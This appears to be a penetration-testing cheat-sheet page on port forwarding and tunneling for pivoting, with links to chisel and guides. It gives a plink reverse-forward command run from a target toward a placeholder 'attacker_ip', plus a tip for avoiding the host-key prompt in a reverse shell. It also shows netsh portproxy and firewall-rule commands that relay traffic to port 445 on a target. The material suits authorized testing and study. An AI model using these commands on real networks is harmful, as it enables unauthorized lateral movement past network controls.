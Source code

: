 # Port Forwarding & Tunneling

## Tools

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

## Readings

* [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
* [https://artkond.com/2017/03/23/pivoting-guide/#ssh-reverse-port-forwarding-w-3proxy](https://artkond.com/2017/03/23/pivoting-guide/#ssh-reverse-port-forwarding-w-3proxy)

## Port Forwarding

### Plink

Source: [http://the.earth.li/\~sgtatham/putty/0.53b/htmldoc/Chapter7.html](http://the.earth.li/\~sgtatham/putty/0.53b/htmldoc/Chapter7.html)

Remote port forwarding, setup from target:

```
plink.exe -ssh -l kali -pw ilak -R attacker_ip:attacker_port:127.0.0.1:target_port attacker_ip
```

{% hint style="info" %}
When doing a first connection to a host, plink will ask whether to cache the host key or not. This step may not be seen in a typical reverse shell.

To avoid the interaction, pipe an "`echo y"`: `cmd /c echo y | plink.exe ...`
{% endhint %}

### Netsh

High privilege shell required.

Local port forwarding, setup from relay:

```
netsh interface portproxy add v4tov4 listenport=8888 listenaddress=relay_ip connectport=445 connectaddress=target_ip

# Configuring corresponding Windows firewall rule
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=relay_ip localport=8888 action=allow
```

